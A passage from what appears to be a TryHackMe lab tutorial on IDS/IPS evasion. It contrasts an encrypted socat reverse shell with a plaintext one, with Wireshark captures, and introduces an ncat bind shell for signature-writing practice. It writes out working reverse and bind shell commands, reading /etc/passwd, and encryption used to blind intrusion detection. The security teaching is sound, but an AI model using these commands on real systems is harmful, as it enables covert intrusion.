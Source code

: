 As we have a listener on the attacker system, we switched to the victim machine, and we executed the following:

Target Terminal

```shell-session
pentester@target$ socat OPENSSL:10.20.30.129:4443,verify=0 EXEC:/bin/bash
```

Back to the attacker system, let’s run `cat /etc/passwd`:

Pentester Terminal

```shell-session
pentester@TryHackMe$ socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT
[...]
2022/02/24 15:54:28 socat[7620] N starting data transfer loop with FDs [7,7] and [1,1]

cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
[...]
```

However, if the IDS/IPS inspects the traffic, all the packet data will be encrypted. In other words, the IPS will be completely oblivious to exchange traffic and commands such as `cat /etc/passwd`. The screenshot below shows how things appear on the wire when captured using Wireshark. The highlighted packet contains `cat /etc/passwd`; however, it is encrypted.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/3352df7b863f48cfaf0aee8f308e95a9.png)  

As you can tell, it is not possible to make sense of the commands or data being exchanged. To better see the value of the added layer of encryption, we will compare this with an equivalent `socat` connection that does not use encryption.

1. On the attacker’s system, we run `socat -d -d TCP-LISTEN:4443,fork STDOUT`.
2. On the victim’s machine, we run `socat TCP:10.20.30.129:4443 EXEC:/bin/bash`.
3. Back on the attacker’s system, we type `cat /etc/passwd` and hit Enter/Return.

Because no encryption was used, capturing the traffic exchanged between the two systems will expose the commands, and the traffic exchanged. In the following screenshot, we can see the command sent by the attacker.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/08f8e9b8cdae4878dab23cbb57dfbbe2.png)  

Furthermore, it is a trivial task to follow the TCP stream as it is in cleartext and learn everything exchanged between the attacker and the target system. The screenshot below uses the “Follow TCP Stream” option from Wireshark.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/40f0e2f428db90b8b57d708d77eae99c.png)  

### Modify the data

Consider the simple case where you want to use Ncat to create a bind shell. The following command `ncat -lvnp 1234 -e /bin/bash` tells `ncat` to listen on TCP port 1234 and bind Bash shell to it. If you want to detect packets containing such commands, you need to think of something specific to match the signature but not too specific.
